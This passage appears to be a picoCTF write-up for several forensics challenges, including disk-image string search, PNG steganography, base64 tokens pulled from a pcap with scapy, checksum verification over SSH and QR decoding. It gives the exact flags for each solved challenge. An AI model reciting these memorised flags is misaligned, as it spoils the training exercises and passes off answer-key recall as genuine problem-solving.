!printf '\xFF\xD8\xFF\xE0' | dd of=fixed.jpg bs=1 seek=0 count=4 conv=notrunc
```



**flag:** `picoCTF{r3st0r1ng_th3_by73s_0e8fb0ec}`

#### DISKO 1

AUTHOR: DARKRAICG492

**Description**

Can you find the flag in this disk image?

[disko](disko-1.dd)

**Hints**

- Maybe Strings could help? If only there was a way to do that?

```python
!strings disko-1.dd | grep -i picoCTF
```

#### RED

AUTHOR: SHUAILIN PAN (LECONJUROR)

**Description**

RED, RED, RED, RED


**Hints**

- The picture seems pure, but is it though?
- Red?Ged?Bed?Aed?
- Check whatever Facebook is called now.

```python
!exiftool red.png
```

```python
!zsteg red.png
```

```python
!echo "cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==" | base64 -d
```

#### Ph4nt0m 1ntrud3r

AUTHOR: PRINCE NIYONSHUTI N.

**Description**

A digital ghost has breached my defenses, and my sensitive data has been stolen! 😱💻 Your mission is to uncover how this phantom intruder infiltrated my system and retrieve the hidden flag.
To solve this challenge, you'll need to analyze the provided PCAP file and track down the attack method. The attacker has cleverly concealed his moves in well timely manner. Dive into the network traffic, apply the right filters and show off your forensic prowess and unmask the digital intruder!

Find the PCAP file here [Network Traffic PCAP file](./myNetworkTraffic.pcap) and try to get the flag.

**Hints**

- Filter your packets to narrow down your search.
- Attacks were done in timely manner.
- Time is essential

**Solution**

- using wireshark

```python
from scapy.all import rdpcap, TCP, Raw
import base64
import re

PCAP_PATH = "myNetworkTraffic.pcap"

# base64-ish tokens (letters/numbers/+/, maybe = padding)
B64_RE = re.compile(rb'(?<![A-Za-z0-9+/=])([A-Za-z0-9+/]{4,}={0,2})(?![A-Za-z0-9+/=])')

def is_probably_base64(b: bytes) -> bool:
    # length must be multiple of 4 for standard base64
    if len(b) % 4 != 0:
        return False
    # quick sanity: try decode
    try:
        base64.b64decode(b, validate=True)
        return True
    except Exception:
        return False

def main():
    pkts = rdpcap(PCAP_PATH)

    hits = []  # (time, b64_token)

    for p in pkts:
        if p.haslayer(TCP) and p.haslayer(Raw):
            payload = bytes(p[Raw].load)

            # find candidate base64 tokens in the payload
            for m in B64_RE.finditer(payload):
                token = m.group(1)
                if is_probably_base64(token):
                    hits.append((float(p.time), token))

    # sort by time (the challenge hint: "Time is essential")
    hits.sort(key=lambda x: x[0])

    # decode in timestamp order
    decoded_parts = []
    for t, token in hits:
        try:
            decoded = base64.b64decode(token, validate=True)
            # keep printable chunks only
            if all(32 <= c <= 126 or c in (10, 13, 9) for c in decoded):
                decoded_parts.append(decoded.decode("utf-8", errors="ignore"))
        except Exception:
            pass

    # join and print
    combined = "".join(decoded_parts)
    print("Decoded pieces:", decoded_parts)
    print("\nCombined output:\n", combined)

if __name__ == "__main__":
    main()
```

**flag:**  `picoCTF{1t_w4snt_th4t_34sy_tbh_4r_8e10e839}`

#### Verify

AUTHOR: JEFFERY JOHN

**Description**

People keep trying to trick my players with imitation flags. I want to make sure they get the real thing! I'm going to provide the SHA-256 hash and a decrypt script to help you know that my flags are legitimate.

`ssh -p 65043 ctf-player@rhea.picoctf.net`

Using the password f3b61b38. Accept the fingerprint with yes, and ls once connected to begin. Remember, in a shell, passwords are hidden!

Checksum: fba9f49bf22aa7188a155768ab0dfdc1f9b86c47976cd0f7c9003af2e20598f7

To decrypt the file once you've verified the hash, run ./decrypt.sh files/<file>.

**Hints**

- Checksums let you tell if a file is complete and from the original distributor. If the hash doesn't match, it's a different file.
- You can create a SHA checksum of a file with sha256sum <file> or all files in a directory with sha256sum <directory>/*.
- Remember you can pipe the output of one command to another with |. Try practicing with the 'First Grep' challenge if you're stuck!

##### Solution

- SSH into the challenge server
  ```bash
  ssh -p 65043 ctf-player@rhea.picoctf.net
  yes
  f3b61b38
  ```
- List files
  ```bash
  ls
  ls files
  sha256sum files/*
  ```
- find fba9f49bf22aa7188a155768ab0dfdc1f9b86c47976cd0f7c9003af2e20598f7
- Decrypt the correct file
  ```bash
  ./decrypt.sh files/87590c24
  ```

**flag:** `picoCTF{trust_but_verify_87590c24}`

#### Scan Surprise

AUTHOR: JEFFERY JOHN

**Description**

I've gotten bored of handing out flags as text. Wouldn't it be cool if they were an image instead?

You can download the challenge files here:

[challenge.zip](home/)

The same files are accessible via SSH here: `ssh -p 59819 ctf-player@atlas.picoctf.net`

Using the password f3b61b38. Accept the fingerprint with yes, and ls once connected to begin. Remember, in a shell, passwords are hidden!

**Hints**

- QR codes are a way of encoding data. While they're most known for storing URLs, they can store other things too.
- Mobile phones have included native QR code scanners in their cameras since version 8 (Oreo) and iOS 11
- If you don't have access to a phone, you can also use zbar-tools to convert an image to text

##### Solution

- connect to server
```bash
ssh -p 59819 ctf-player@atlas.picoctf.net
yes
f3b61b38
```

- look inside and using zbarimg
```bash
rbash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
ctf-player@challenge:~/drop-in$ ls
flag.png
ctf-player@challenge:~/drop-in$ zbarimg flag.png
Connection Error (Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory)
Connection Null
QR-Code:picoCTF{p33k_@_b00_d4ca652e}
scanned 1 barcode symbols from 1 images in 0.01 seconds
```

**flag:** `picoCTF{p33k_@_b00_d4ca652e}`

#### Secret of the Polyglot

AUTHOR: SYREAL

**Description**

The Network Operations Center (NOC) of your local institution picked up a suspicious file, they're getting conflicting information on what type of file it is. They've brought you in as an external expert to examine the file. Can you extract all the information from this strange file?

[Download the suspicious file](./flag2of2-final.pdf)

**Hints**

- This problem can be solved by just opening the file in different ways
